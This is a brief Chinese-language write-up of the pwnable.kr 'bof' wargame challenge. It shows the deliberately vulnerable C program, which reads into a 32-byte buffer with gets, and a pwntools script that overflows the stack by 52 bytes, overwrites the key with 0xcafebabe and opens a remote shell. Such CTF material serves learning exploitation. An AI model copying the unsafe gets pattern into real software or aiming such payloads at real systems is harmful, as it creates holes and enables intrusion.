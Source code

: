 代码如下

	#include <stdio.h>
	#include <string.h>
	#include <stdlib.h>
	void func(int key){
		char overflowme[32];
		printf("overflow me : ");
		gets(overflowme);	// smash me!
		if(key == 0xcafebabe){
			system("/bin/sh");
		}
		else{
			printf("Nah..\n");
		}
	}
	int main(int argc, char* argv[]){
		func(0xdeadbeef);
		return 0;
	}

代码存在的问题：

	**栈溢出**

在 Kali 中用 edb 调试，可知需要 **52** 字节的才能覆盖到 0xdeadbeef, 攻击代码如下：

	from pwn import *

	ip = 'pwnable.kr'
	port = 9000
	p = '/root/Downloads/bof.local'
	sc = '0000111122223333444455556666777788889999aaaabbbbeeee\xbe\xba\xfe\xca'
	
	#sh = process(p)
	#sh.send(sc)
	#sh.interactive('\nshell# ')
	
	con = remote(ip, port)
	con.send(sc)
	con.recv(timeout=1)
	con.interactive('\nshell# ')


